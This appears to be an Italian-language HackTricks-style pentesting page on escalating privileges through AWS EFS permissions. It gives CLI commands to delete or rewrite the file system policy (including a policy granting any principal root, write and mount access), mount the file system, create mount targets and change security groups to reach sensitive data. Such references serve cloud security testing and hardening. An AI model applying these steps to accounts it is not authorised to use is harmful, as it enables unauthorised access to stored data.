 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Ulteriori **info su EFS** in:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

Ricorda che per montare un EFS devi essere in una sottorete in cui l'EFS è esposto e avere accesso ad esso (gruppi di sicurezza). Se ciò accade, per impostazione predefinita, sarai sempre in grado di montarlo, tuttavia, se è protetto da politiche IAM, devi avere le autorizzazioni aggiuntive menzionate qui per accedervi.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Con una di queste autorizzazioni un attaccante può **cambiare la politica del file system** per **darti accesso** ad esso, o semplicemente **eliminarlo** in modo che venga concesso il **accesso predefinito**.

Per eliminare la politica:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Per cambiarlo:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Con questo permesso, un attaccante sarà in grado di **montare l'EFS**. Se il permesso di scrittura non è concesso per impostazione predefinita a tutti coloro che possono montare l'EFS, avrà solo **accesso in lettura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
I permessi aggiuntivi `elasticfilesystem:ClientRootAccess` e `elasticfilesystem:ClientWrite` possono essere utilizzati per **scrivere** all'interno del filesystem dopo che è stato montato e per **accedere** a quel filesystem **come root**.

**Impatto Potenziale:** Privesc indiretto localizzando informazioni sensibili nel filesystem.

### `elasticfilesystem:CreateMountTarget`

Se un attaccante si trova in una **sottorete** dove **non esiste alcun mount target** dell'EFS. Potrebbe semplicemente **crearne uno nella sua sottorete** con questo privilegio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impatto Potenziale:** Privesc indiretto localizzando informazioni sensibili nel file system.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In uno scenario in cui un attaccante scopre che l'EFS ha un target di montaggio nella sua sottorete ma **nessun gruppo di sicurezza consente il traffico**, potrebbe semplicemente **cambiare ciò modificando i gruppi di sicurezza selezionati**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impatto Potenziale:** Privesc indiretto localizzando informazioni sensibili nel file system.

{{#include ../../../banners/hacktricks-training.md}}
